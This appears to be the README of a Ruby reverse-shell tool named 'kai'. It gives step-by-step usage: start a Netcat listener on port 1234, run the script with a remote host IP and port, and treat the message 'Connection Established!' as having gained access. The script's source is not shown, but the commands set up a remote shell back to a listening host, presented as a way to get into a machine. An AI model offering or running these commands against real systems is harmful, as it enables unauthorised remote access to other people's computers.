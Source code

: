 ## kai

## Dependencies

**In order for the script to work you need to have Ruby installed on the system.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run Kai. `$ ./kai.rb --remote-host 192.168.1.109 --port-remote 1234`**  
**3. If you get this message `Status: Connection Established!` it means you gained access.**  

![Ruby](https://img.shields.io/badge/Ruby-CC342D?style=for-the-badge&logo=ruby&logoColor=white/)
